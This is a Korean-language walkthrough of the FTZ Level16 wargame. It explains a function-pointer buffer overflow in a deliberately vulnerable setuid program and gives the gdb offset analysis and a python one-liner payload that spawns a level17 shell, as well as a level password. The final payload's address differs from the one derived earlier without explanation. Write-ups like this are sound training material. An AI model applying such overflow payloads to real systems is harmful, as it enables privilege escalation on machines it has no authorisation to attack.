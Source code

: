 # FTZ Level16

#### ID : level16 PW: about to cause mass
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level17의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

main()
{
      void shell(){
        setreuid(3097, 3097);
        system("/bin/sh");
      }
      void printit(){
        printf("Hello there!\n");
      }
      main(){
        int crap;
        void (*call)()=printit;
        char buf[20];
        fgets(buf, 48, stdin);
        call();
      }
}
```
내용을 보면 level17의 권한으로 쉘을 실행하는 shell 함수와 단순 출력하는 printit 함수가 있다.<br>
또 call 포인터에 printit 함수를 저장하고 main 마지막에 call 함수를 호출한다.<br>

목표 : printit을 가리키고 있는 call 주소 값을 shell 함수 주소로 변경해보자.

우리의 목적을 생각해보자.<br>
1. buf에서 *call까지 거리 구하기
2. shell 함수 주소 구하기
3. *call 위치에 shell 함수 주소 덮어 씌우기
3. 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```set disas intel```<br>
```disas main```<br>

<main+3>을 보면 0x38만큼의 공간을 만들고 있다. 0x38은 10진수로 56이다.<br>
buf에서 ebp까지의 거리가 56인 것이다.<br>
<main+36>을 보면 call에서 ebp까지의 거리가 16인 것을 알 수 있다.<br>
따라서 buf에서 call까지의 거리는 56-16인 40이다.<br>

이제 p 명령어로 shell 함수가 위치해 있는 주소를 확인해보자.<br>
```p shell```<br>
shell 함수의 주소는 0x80484d0으로 나온다.

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~call까지 거리)+(0x80484d0)**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xd0\x84\x04\x08"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xb2\x84\x04\x08"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level17 Password is "~~". 라고 나올 것이다!!

